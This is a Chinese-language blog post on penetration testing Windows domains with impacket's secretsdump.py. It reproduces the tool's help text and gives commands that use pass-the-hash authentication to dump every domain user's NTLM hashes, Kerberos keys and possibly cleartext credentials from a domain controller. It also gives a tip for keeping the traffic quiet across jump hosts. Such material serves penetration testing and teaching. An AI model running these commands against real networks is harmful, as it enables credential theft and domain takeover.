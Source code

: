 ```yaml
---
layout: post
title: Windows hash dump之secretsdump
date: 2019-07-16 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

在域渗透的时候经常使用impacket的secretsdump.py来获取域内主机甚至域控上的hash值，secretsdump可以通过多种方法获取{sam, secrets, cached and ntds}中保存的用户凭证。  
  
{:refdef: style="text-align: center;"}
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/stupid-hashdump.jpg?raw=true)
{: refdef}   





图片来源于http://blog.extremehacking.org/blog/2017/06/19/make-hashdump-module-work-windows-10-sam-mode/
今天并不讲secretsdump.py的实现方法，也许某天不忙的时候会分析一下其具体实现细节。今天主要借助secretsdump.py了解一下用户凭证在windows系统中是如何存储的。
本文的主要内容：  
1、secretsdump.py的使用  
2、用户凭证在windows系统如何存储

### \#0x00 secretsdump.py的使用:
直接查看帮助是便捷且有效的方法  

``` 
secretsdump.py -h:
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

usage: secretsdump.py [-h] [-debug] [-system SYSTEM] [-bootkey BOOTKEY]
                      [-security SECURITY] [-sam SAM] [-ntds NTDS]
                      [-resumefile RESUMEFILE] [-outputfile OUTPUTFILE]
                      [-use-vss] [-exec-method [{smbexec,wmiexec,mmcexec}]]
                      [-just-dc-user USERNAME] [-just-dc] [-just-dc-ntlm]
                      [-pwd-last-set] [-user-status] [-history]
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address]
                      [-target-ip ip address]
                      target

Performs various techniques to dump secrets from the remote machine without
executing any agent there.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
                        or LOCAL (if you want to parse local files)

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -system SYSTEM        SYSTEM hive to parse
  -bootkey BOOTKEY      bootkey for SYSTEM hive
  -security SECURITY    SECURITY hive to parse
  -sam SAM              SAM hive to parse
  -ntds NTDS            NTDS.DIT file to parse
  -resumefile RESUMEFILE
                        resume file name to resume NTDS.DIT session dump (only
                        available to DRSUAPI approach). This file will also be
                        used to keep updating the session's state
  -outputfile OUTPUTFILE
                        base output filename. Extensions will be added for
                        sam, secrets, cached and ntds
  -use-vss              Use the VSS method insead of default DRSUAPI
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec

display options:
  -just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach. Implies also
                        -just-dc switch
  -just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos
                        keys)
  -just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
  -pwd-last-set         Shows pwdLastSet attribute for each NTDS.DIT account.
                        Doesn't apply to -outputfile data
  -user-status          Display whether or not the user is disabled
  -history              Dump password history, and LSA secrets OldVal

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use
                        the domain part (FQDN) specified in the target
                        parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
```
基本使用方法：
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH 
```
secretsdump.py主要从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit(包括Supplemental Credentials，可能有明文密码)三处获取用户凭证，唯一的一点是不能dump LSASS进程在内存中的数据。  
1、导出域内所有用户ntlm hash(通过预控上的ntds.dit数据库获取)  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc-ntlm -outputfile tmp
```
2、导出域内所有用户的ntlm hash、Kerberos keys和Domain Credentials(Supplemental Credentials，可能保存有明文密码，secretsdump生成的文件以cleartext为后缀)。  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc -outputfile tmp
```
3、secretsdump.py会把结果打印到标准输出，而渗透过程中可能会经过多个跳板机在内网运行secretsdump，这样可能产生额外流量，为了避免这种情况，可以把输出定向到/dev/null。  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc-ntlm -outputfile tmp >/dev/null
```

### \#0x01 用户凭证在windows系统如何存储:
查看微软官方的说明
![用户凭证在windows系统中的存储情况](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/用户凭证在windows系统中的存储情况%20copy.png?raw=true) 

根据微软官网的介绍，用户凭证一般存储在SAM、LSA secrets、NTDS.DIT和LSASS进程的内存中，另外系统缓存中也有可能存在用户凭证，参见：  
[Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
[Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  


secretsdump可以从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit获取用户凭证，LSASS进程的内存数据通过[绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)获取。  


### 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
* [Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  
* [绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)